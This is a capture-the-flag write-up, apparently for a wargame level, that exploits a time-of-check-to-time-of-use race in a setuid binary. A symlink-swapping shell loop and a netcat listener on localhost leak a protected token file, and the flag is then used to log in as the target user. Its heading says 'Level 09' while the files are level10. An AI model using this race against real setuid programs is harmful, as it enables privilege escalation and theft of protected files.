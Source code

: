 # Level 09

## Initial Context

- Two file: `level10` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

`level10` seems to send a file to a socket only if you have the permission:

```bash
$ ./level10
./level10 file host
        sends file to host if you have access to it

$ ./level10 token 127.0.0.1
You don t have access to token

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

# starting a netcat in the background
$ nc -lkvn 0.0.0.0 6969 &
[1] 27240

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
Connected!
Sending file ..
...
wrote file!
```

But how to read the `token` file? The program seems to before check for the file permission, then try to open it.

```bash
$ ltrace ./level10 token 127.0.0.1
access("token", 4) = -1
printf("You don't have access to %s\n", "token") = 31
```

```bash
$ ltrace ./level10 /etc/passwd 127.0.0.1
access("/etc/passwd", 4) = 0
...
open("/etc/passwd", 0, 010) = 4
...
```

That means that if we manage to 'change' the file that is trying to be open just after the `access` check but just before the `open` call, it should works.

### Exploiting

By quickly changing the file, we should manage to randomly get the timing right. The `access` would check the dummy file, and the `open` would open the `token` file.

```bash
# create a dummy file
$ echo 'dummy' > /tmp/dummy

$ while true; do
  # link `/tmp/level10` to the dummy file
  ln -s /tmp/dummy /tmp/level10;
  # remove the link
  rm /tmp/level10;
  # link `/tmp/level10` to the token file
  ln -s ~/token /tmp/level10;
  # remove the link
  rm /tmp/level10;
done
```

In another terminal, start a netcat with filters to remove useless content:

```bash
nc -lkvn 0.0.0.0 6969 2>&1 | grep -v 'Connection from' | grep -v 'dummy' | grep -v '( )'
```

In again another terminal, start the `level10` executable in a loop:

```bash
while true; do
  ./level10 /tmp/level10 127.0.0.1;
done
```

After waiting a bit, the flag will appear on the netcat's terminal.

Now we can log into `flag10` and do `getflag`.

```
$ su flag10
$ getflag
Check flag.Here is your token : ....
```
